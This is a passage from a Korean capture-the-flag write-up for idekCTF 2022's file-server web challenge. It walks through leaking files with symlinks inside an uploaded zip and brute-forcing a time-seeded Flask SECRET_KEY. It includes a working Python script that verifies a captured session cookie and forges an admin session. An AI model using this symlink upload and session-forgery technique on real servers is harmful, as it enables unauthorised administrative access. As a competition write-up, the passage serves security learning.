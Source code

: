 유출해야 될 파일은 `random.seed` 에 들어간 값이니 `[config.py](http://config.py)` 파일과 서버 로그가 저장된 `server.log` 파일이다. 해당 파일을 가리키는 심볼릭 링크를 생성한 다음 `zip` 커맨드로 압축한다.

생성한 압축파일을 서버에 올린 다음 파일에 접근하면 파일 내용을 열람할 수 있다.

![](/img/idekctf2022/4.png)*Upload 페이지*

![](/img/idekctf2022/5.png)*http://simple-file-server.chal.idek.team:1337/uploads/5f1cbf35-5598-45ba-93d2-2c62c240a6ae/1*

![](/img/idekctf2022/5.png)*http://simple-file-server.chal.idek.team:1337/uploads/5f1cbf35-5598-45ba-93d2-2c62c240a6ae/2*

`time.time()` 의 리턴 값은 Unix Timestamp 값이므로 `server.log` 에서 확인한 서버 시간을 변환한다.

![](/img/idekctf2022/5.png)*https://www.unixtimestamp.com/*

획득한 값을 바탕으로 SECRET_KEY를 생성하는 코드를 짠다.

- `time.time()` 으로 가져온 시간 값이 `server.log`에 찍힐 당시와 차이가 있을 수 있으니, 어느 정도 그 시간에 이전 값으로 Bruteforce를 진행해야 한다.
- `time.time()` 의 리턴값은 `round()` 함수로 ms 값까지 포함하기 때문에 0.001 단위로 Bruteforce 증감해야 한다.
- `SECRET_KEY` 로 세션 값을 생성하고 검증할때 https://github.com/Paradoxis/Flask-Unsign 을 사용한다.
- Bruteforce 도중 생성한 `SECRET_KEY` 값이 실서버에 있는 `SECRET_KEY` 와 동일한지 체크하기 위해 실서버에서 사용 중인 세션 쿠키 값을 가져와 생성한 값으로 `verify`를 진행한다.
- 만약 `verify` 했을때 정상적이면 해당 키가 맞는거니까 그걸로 `admin` 값이 `True` 인 세션을 `sign` 으로 생성한다

```python
import random
from flask_unsign import session

any_session = "eyJhZG1pbiI6bnVsbCwidWlkIjoiMSJ9.Y8d5Ng.sxCa3w5iiiDL1kjkkIndvtLYd8M"
SECRET_OFFSET = -67198624
time = 1673997221 # [2023-01-17 23:13:41 +0000] UTC 주의

while True:
    new_time = round(time, 3)
    new_seed = round((new_time + SECRET_OFFSET) * 1000)
    print(new_seed, end="\r")
    random.seed(round((new_time + SECRET_OFFSET) * 1000))
    secret = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
    if session.verify(any_session, secret):
        print("[+] Found SECRET_KEY: " + secret)
        new_session = {"admin": True, "uid": 1}
        print("[+] Created Session: " + session.sign(new_session, secret))
        break
    time += 0.001
```

![](/img/idekctf2022/6.png)*내가 작성한 코드를 실행하면?*

![](/img/idekctf2022/6.png)*http://simple-file-server.chal.idek.team:1337/flag*

## Web/Paywall
